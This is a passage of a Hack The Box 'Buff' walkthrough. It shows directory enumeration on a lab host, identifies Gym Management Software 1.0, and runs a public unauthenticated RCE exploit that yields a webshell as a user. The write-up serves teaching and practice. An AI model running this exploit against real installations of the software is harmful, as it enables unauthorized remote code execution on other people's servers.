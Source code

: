 ```
http://10.10.10.198:8080/att                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/att/]
http://10.10.10.198:8080/boot                 (Status: 301) [Size: 342] [--> http://10.10.10.198:8080/boot/]
http://10.10.10.198:8080/ex                   (Status: 301) [Size: 340] [--> http://10.10.10.198:8080/ex/]
http://10.10.10.198:8080/img                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/img/]
http://10.10.10.198:8080/include              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/include/]
http://10.10.10.198:8080/profile              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/profile/]
http://10.10.10.198:8080/upload               (Status: 301) [Size: 344] [--> http://10.10.10.198:8080/upload/]
http://10.10.10.198:8080/workouts             (Status: 301) [Size: 346] [--> http://10.10.10.198:8080/workouts/]
```

Looking at http://buff.htb:8080/contact.php, we can know that this site was made using the Gym Management Software 1.0 from Projectworlds.in

![Gym Management Software](https://github.com/joelczk/writeups/blob/main/HTB/Images/Buff/gym_management_software.png)

## Exploit
### RCE on Gym Management System 1.0
Looking at [exaploitdb](https://www.exploit-db.com/exploits/48506), we are able to find an unauthenticated RCE for the Gym Management System 1.0.

Next, what we will do is to execute the exploit code to obtain an RCE. This creates a webshell for us, which will allow us to gain access to the backend server. 

```
┌──(HTB2)─(kali㉿kali)-[~/Desktop/buff]
└─$ python exploit.py http://buff.htb:8080/                                                                      1 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                               
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun
```
